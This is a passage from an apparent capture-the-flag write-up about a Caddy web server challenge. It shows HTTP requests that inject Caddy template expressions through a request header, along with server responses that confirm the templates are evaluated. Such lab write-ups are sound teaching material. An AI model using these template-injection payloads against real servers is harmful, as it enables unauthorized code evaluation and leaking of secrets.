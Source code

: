 ```
  ],
  "My-Header": [
    "$FLAG"
  ]
}
```

Not really.. But maybe it should be in curly braces so that evaluates instead of being passed as a string? Let's try it:

Request:

```
GET /fetch/headers HTTP/2
Host: private.caddy.chal-kalmarc.tf
Caddy-Templates-Include: 1
My-Header: {{ $FLAG }}

```

Response:

```
HTTP/2 500 Internal Server Error
Alt-Svc: h3=":443"; ma=2592000
Content-Type: text/plain; charset=utf-8
Server: Caddy
Content-Length: 0
Date: Sat, 15 Mar 2025 13:16:59 GMT

```

Something triggered an internal server error! Let's see, if we can at least execute some caddy directives like `cat` _(raw `"` quotes result in internal server error so I used backticks instead)_:

Request:

```
GET /fetch/headers HTTP/2
Host: private.caddy.chal-kalmarc.tf
Caddy-Templates-Include: 1
My-Header: {{ cat `hi` }}

```

Response:

```
HTTP/2 200 OK
Alt-Svc: h3=":443"; ma=2592000
Content-Type: text/plain; charset=utf-8
Server: Caddy
Content-Length: 120
Date: Sat, 15 Mar 2025 13:18:42 GMT

{
  "Accept-Encoding": [
    "identity"
  ],
  "Caddy-Templates-Include": [
    "2"
  ],
  "My-Header": [
    "hi"
  ]
}
```
